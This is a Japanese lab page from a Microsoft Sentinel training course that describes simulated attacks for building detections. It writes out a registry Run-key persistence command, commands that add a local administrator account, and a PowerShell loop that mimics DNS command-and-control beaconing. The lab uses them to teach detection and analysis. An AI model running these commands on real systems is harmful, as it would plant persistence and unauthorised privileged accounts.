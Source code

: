 ﻿---
lab:
    title: '演習 4 - 検出モデリングを理解する'
    module: 'モジュール 7 – Microsoft Sentinel を使用して脅威を検出し、調査を実行する'
---

# モジュール 7 - ラボ 1 - 演習 4 - 検出モデリングを理解する

### タスク 1: 攻撃を理解する

**重要: この演習では、アクションを実行しません。**  これらの手順は、次の演習で実行する攻撃を説明することを目的としています。このページを慎重にお読みください。

攻撃パターンはオープンソースプロジェクトに基づいています： https://github.com/redcanaryco/atomic-red-team

>**注:** 一部の設定は、ラボの目的のためだけに、より短い時間枠でトリガーされます。

#### 攻撃 1 - レジストリキーの追加による永続性。

この攻撃は、コマンドプロンプトから実行されます。

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### 攻撃 2 - ユーザーが特権を追加および昇格

攻撃者は新しいユーザーを追加し、新しいユーザーを Administrators グループに昇格させます。  これにより、攻撃者は特権のある別のアカウントでログオンできます。

```Command
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

### 攻撃 3 - ドメイン ネーム サービス / コマンド＆コントロール 

この攻撃は、コマンド＆コントロール (C2) 通信をシミュレートします。

```PowerShell
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```


### タスク 2: 検出モデリングを理解します。

このラボで使用されている攻撃検出構成サイクルは、2つの特定のデータソースのみに焦点を当てている場合でも、すべてのデータソースを表します。

検出を構築するには、最初に KQL ステートメントの構築から始めます。  ホストを攻撃するため、KQL ステートメントの作成を開始するための代表的なデータがあります。

次のラボでは、Defender for Endpoint がインストールされている Windows ホストと Sysmon がインストールされている Windows で同じ攻撃を実行します。  検出を構築すると、それぞれのデータ正規化の違いがわかります。

KQL ステートメントを取得したら、分析ルールを作成します。

ルールがトリガーされてアラートとインシデントが作成されたら、調査を行って、セキュリティ オペレーション アナリストの調査に役立つフィールドを提供しているかどうかを判断します。

次に、分析ルールにその他の変更を加えます。

# 演習 5 に進みます。
